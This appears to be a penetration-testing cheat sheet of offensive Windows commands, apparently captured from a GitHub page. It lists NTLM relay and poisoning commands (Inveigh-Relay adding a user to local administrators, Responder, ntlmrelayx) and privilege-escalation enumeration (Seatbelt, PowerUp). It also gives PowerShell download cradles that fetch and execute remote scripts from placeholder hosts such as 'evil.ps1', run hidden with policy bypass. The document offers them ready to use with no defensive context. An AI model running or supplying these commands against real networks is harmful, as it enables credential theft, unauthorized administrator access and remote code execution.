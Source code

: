 ## Inveigh-Relay
```
Invoke-inveighrelay -consoleoutput y -target <IP_comma_separated> -showhelp n -statusoutput y -command "cmd.exe net localgroup administrators <DOMAIN\USER> /add" 
```
## Responder
```
Responder -I eth0 -rdw
```

## SMB_relay
Source : https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
```
ntlmrelayx.py -tf targets.txt
ntlmrelayx.py -tf targets.txt -c <command>
```

## SeatBelt
```
seatbelt.exe -group=user
Seatbelt.exe -group=system -outputfile="C:\seatbelle-as-adminORsystem.txt"
```
## PowerUp
```
Import-Module .\PowerUp.ps1
Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
```
## PowerLessShell
Source : https://github.com/Mr-Un1k0d3r/PowerLessShell
```
python PowerLessShell.py powershell.ps1 output
```
## Modify hash of Signed bin
Source : https://github.com/Mr-Un1k0d3r/Windows-SignedBinary

## Powershell : download craddle iex
```
(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://HOSTNAME/yolo-x64-stageless.txt')|iex
```
## Powershell 
```
powershell -execb -nop -w hidden -c "<commands>"
Get-Process
Get-Service
# PowerShell 3.0+
IEX (iwr 'https://yolo/evil.ps1')
...
```
## Powershell Version
```
$psversiontable
```
## .Net Version CLR
```
%WINDIR%\Microsoft.Net\Framework\v4.0.30319\System.dll
```